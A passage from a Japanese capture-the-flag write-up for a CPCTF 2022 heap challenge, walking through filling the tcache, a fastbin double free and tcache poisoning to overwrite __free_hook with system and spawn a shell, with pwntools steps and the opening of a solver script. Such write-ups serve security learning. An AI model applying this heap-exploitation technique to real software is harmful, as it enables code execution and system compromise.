 ### tcacheをすべて埋める
7つの`tcache`をすべて埋めて、次にfreeしたチャンクが`fastbin`に繋がるようにします。

`delete`は、`msg[index]->content`と`msg[index]`をfreeするので2つ繋がれて、`edit`は1つである。
（また表記として、`msg[index]->content`には、ダッシュ`'`を付けます）

```python
delete("0")
delete("2")
delete("3")
edit("4", "-1")
```
```none
tcache: 4' -> 3 -> 3' -> 2 -> 2' -> 0 -> 0' -> NULL
```
### double free
double freeについては、[fastbin_tutorial - InterKosenCTF 2019](https://blog.y2a.dev/articles/2022/05-07/fastbin_tutorial/)で詳しく説明しているので、わからなければ合わせて確認してみてください。

さて、fastbinの中でdouble freeを起こします。
```python
delete("5") #fastbin: 5 -> 5' -> NULL
edit("5", "-1") #fastbin: 5' -> 5 -> 5' -> NULL
```

そのあと、`tcache`に溜まっているfreed chunkを無くしていきます。
```python
new("0", "16", b"XXXX")
new("2", "16", b"YYYY")
new("3", "16", b"ZZZZ")
```
そうするとbinの様子は次のようになります。
```none
tcache: 0' -> NULL
fastbin: 5' -> 5 -> 5' -> NULL
```

#### tcache poisoning
ここで`new`すると、`tcache`と`fastbin`から一つずつ確保され、`content`には`5'`のアドレスが返ります。
```python
new("4", "16", p64(libc.sym["__free_hook"]))
```
```none
fastbin: NULL
tcache: 5 -> 5' -> __free_hook -> NULL
```
#### freed chunkの調整
このままでは、うまく`__free_hook`が返ってこないので、`edit`を使って、freed chunkを一つ付け足します。
```none
tcache: 0' -> 5 -> 5' -> __free_hook -> NULL
```

あとは、`__free_hook`を`system`に向けて`system("/bin/sh")`を呼びます。

# [Solver](https://github.com/yu1hpa/ctf-writeup/tree/master/2022/CPCTF/heap_challenge)
```python
from pwn import *

HOST = "heap-challenge.cpctf.space"
PORT = 30018
file = "./heap_chal"
libc = ELF("./libc.so.6")
context(os = 'linux', arch = 'amd64')
#context.log_level = 'debug'

```